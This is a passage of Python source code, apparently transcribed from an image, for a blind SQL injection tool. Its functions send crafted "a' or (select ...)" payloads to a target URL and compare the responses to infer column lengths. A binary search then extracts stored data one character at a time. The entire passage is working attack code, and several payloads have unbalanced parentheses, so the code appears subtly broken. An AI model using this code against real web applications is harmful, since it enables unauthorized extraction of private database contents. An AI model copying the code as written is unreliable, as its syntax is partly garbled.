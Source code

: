 	for guess in range(0,max):
		# Guess the length of column
		payload = f"a' or select length({column}) from {table} LIMIT 1 OFFSET {line}) like {guess}-- -/"
		r = requests.get(url+payload)
		if r.text != unmatched.text:
			return guess
	raise Exception(f"Cannot identify number of columns in {table})")


# Get the data
def columnData(table, column, offset, line):
	# Test if our logic is good for guessing a character. substr(var from 0 for 0) always returns null
	payload = f"a' or (select substring({column}) from 0 for 0) from {table} LIMIT 1 OFFSET {line}) not like 0-- -/"
	matched = requests.get(url+payload)
	payload = f"a' or (select substring({column}) from 0 for 0) from {table} LIMIT 1 OFFSET {line}) like 0-- -/"
	unmatched = requests.get(url+payload)
	if matched.text == unmatched.text:
		raise Exception(f"Cannot perform substring")

	# Weird algorithm to speed things up
	start = 32
	end = 126
	while start != (end - 1): # guess algorithm: if we have 1 2 3 4 5 6 we first guess if it's 1-3 or 4-6 and then keep
		halfway = int((end - start)/2)
		guess = start + halfway
		payload = f"a' or (select ord(substring({column}) from {offset} for 1)) from {table} LIMIT 1 OFFSET {line}) between {start} and {guess}-- -/"
		r = requests.get(url+payload)
		print(f"BETWEEN chr({start}) and chr({end})")
		if r.text == matched.text:
			end = guess
		else:
			start = guess
	payload = f"a' or (select ord(substring({column}) from {offset} for 1)) from {table} LIMIT 1 OFFSET {line}) like {start}-- -/"	
	r = requests.get(url+payload)
	if r.text == matched.text:
		return chr(start)
		
	payload = f"a' or (select ord(substring({column}) from {offset} for 1)) from {table} LIMIT 1 OFFSET {line}) like {end}-- -/"	
	r = requests.get(url+payload)
	if r.text == matched.text:
		return chr(end)
	